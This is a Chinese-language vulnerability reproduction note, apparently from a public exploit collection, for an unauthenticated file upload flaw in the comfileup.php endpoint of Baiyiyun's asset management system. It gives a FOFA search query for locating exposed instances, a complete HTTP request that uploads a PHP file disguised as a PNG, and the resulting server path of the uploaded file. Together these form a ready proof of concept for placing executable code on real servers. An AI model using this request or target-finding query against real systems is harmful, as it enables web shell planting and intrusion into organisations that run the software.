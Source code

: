 # 资产管理运营系统comfileup前台文件上传漏洞

# 一、漏洞简介
湖南众合百易信息技术有限公司（简称：百易云）成立于2017年是一家专注于不动产领域数字化研发及服务的国家高新技术企业，公司拥有不动产领域的数字化全面解决方案、覆盖住宅、写字楼、商业中心、专业市场、产业园区、公建、后勤等多种业态、通过数字化帮助企业实现数字化转型，有效提高公司管理水平及业务办理效率、降低运营成本，公司自成立以来，已帮助众多企业实现数字化转型。资产管理运营系统comfileup前台文件上传漏洞

# 二、影响版本
+ 资产管理运营系统

# 三、资产测绘
+ fofa`body="media/css/uniform.default.css" && body="资管云"`
+ 特征

![1721891230963-ab71a358-6ed2-4ca8-9c97-c78fd2421899.png](./img/Wqde2Cpvw4X5b-Ms/1721891230963-ab71a358-6ed2-4ca8-9c97-c78fd2421899-329885.png)

# 四、漏洞复现
```plain
POST /comfileup.php HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: ASP.NET_SessionId=vkp4usonpxcstreczz05g113
Accept: */*
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 35827

-----------------------------289666258334735365651210512949
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

123
-----------------------------289666258334735365651210512949--
```

![1721891324618-765acd68-6008-42a7-a922-189de659276e.png](./img/Wqde2Cpvw4X5b-Ms/1721891324618-765acd68-6008-42a7-a922-189de659276e-617875.png)

```plain
/uploads/202407/0725/20240725-66a1f85ecfb2c.php
```

![1721891373679-8062bf4f-2c05-47bb-a7df-4ecad4c32900.png](./img/Wqde2Cpvw4X5b-Ms/1721891373679-8062bf4f-2c05-47bb-a7df-4ecad4c32900-079718.png)



> 更新: 2024-08-12 17:15:59  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hkdpgnqni0idpkxy>